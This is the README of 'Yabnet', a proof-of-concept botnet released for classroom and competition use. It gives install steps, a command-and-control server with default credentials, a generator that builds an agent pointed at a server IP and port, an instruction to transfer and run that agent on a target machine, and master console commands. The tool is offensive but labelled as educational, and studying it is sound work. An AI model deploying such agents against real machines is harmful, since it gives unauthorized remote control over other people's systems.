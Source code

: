 # Yabnet
Yet Another Botnet, PoC created for educational purposes only.

## Disclaimer
Yabnet is a proof of concept tool which is only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

## Under Construction
**Yabnet is currently under construction.**

## Installation 

**Yabnet requires python3.7++
Due to laziness, yabnet currently requires to be installed in the /opt directory.**

```
cd /opt
git clone https://github.com/choisg/yabnet.git
cd /opt/yabnet
chmod +x install.sh
./install.sh
```

## Operation 

**Server setup**
```
<Change MASTERNAME and MASTERPASSWORD in server.py>
<Default is admin:password>

python3 /server/server.py
```
**Agent setup**

```
python3 ./agent/generator.py -i <server_ipaddress> -p <server_port>

Example) python3 ./agent/generator.py -i 192.168.204.128 -p 5000
```

`<Transfer ./agent/dist/agent_deploy_staticx to the target machine and run it>`

**Master setup**

After server and the agent is setup, launch the master console.
```
python3 /master/master.py
console# login -r localhost -u user -p pass
console# list
``` 

`< All master console commands have help flag>`
`Example) push -h`

